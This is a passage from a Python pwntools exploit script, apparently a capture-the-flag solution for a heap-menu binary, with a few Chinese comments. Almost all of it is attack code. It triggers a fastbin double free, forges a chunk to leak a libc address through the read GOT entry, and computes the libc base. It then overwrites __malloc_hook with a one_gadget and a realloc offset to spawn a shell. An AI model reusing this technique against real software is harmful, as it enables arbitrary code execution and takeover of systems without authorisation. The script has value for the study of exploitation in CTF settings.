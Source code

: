 ```python
      sh.recvuntil('please input your content')
   else:
      sleep(0.3)
   sh.send(content)
 
def calloc_del(blind = False):
   if not blind:
      sh.recvuntil('>>')
   else:
      sleep(0.3)
   sh.sendline('666')
   if not blind:
      sh.recvuntil('build or free?')
   else:
      sleep(0.3)
   sh.sendline('2')

#double free 
calloc_A0('a'*0xA0)
add(0x60,'b'*0x60)
calloc_del()
add(0x60,'a'*0x60)
add(0x60,'a'*0x60)
delete()
calloc_del()
delete()
#gdb.attach(sh)

add(0x60,p64(fake_chunk_addr)*2)
add(0x60,'a'*0x60)
add(0x60,'b'*0x60)
add(0x60,'c'*0x18 + p64(read_got) + p64(0xDEADBEEFDEADBEEF))
gdb.attach(sh)
show()
sh.recv(1)
read_addr = u64(sh.recv(6).ljust(8,'\x00'))
libc_base = read_addr - libc.sym['read']
realloc_addr = libc_base + realloc_s
malloc_hook_addr = libc_base + malloc_hook_s
one_gadget_addr = libc_base + one_gadget_s
print 'libc_base=',hex(libc_base)
print 'malloc_hook_addr=',hex(malloc_hook_addr)
print 'one_gadget_addr=',hex(one_gadget_addr)


calloc_A0('a',True)
#利用同样的方法来double free
calloc_A0('a'*0xA0,True)
add(0x60,'b'*0x60,True)
calloc_del(True)
add(0x60,'a'*0x60,True)
add(0x60,'a'*0x60,True)
#double free
delete(True)
calloc_del(True)
delete(True)

add(0x60,p64(malloc_hook_addr - 0x23),True)
add(0x60,'a'*0x60,True)
add(0x60,'b'*0x60,True)
add(0x60,'\x00'*0xB + p64(one_gadget_addr) + p64(realloc_addr + 0x14),True)
#getshell
sh.sendline('1')
```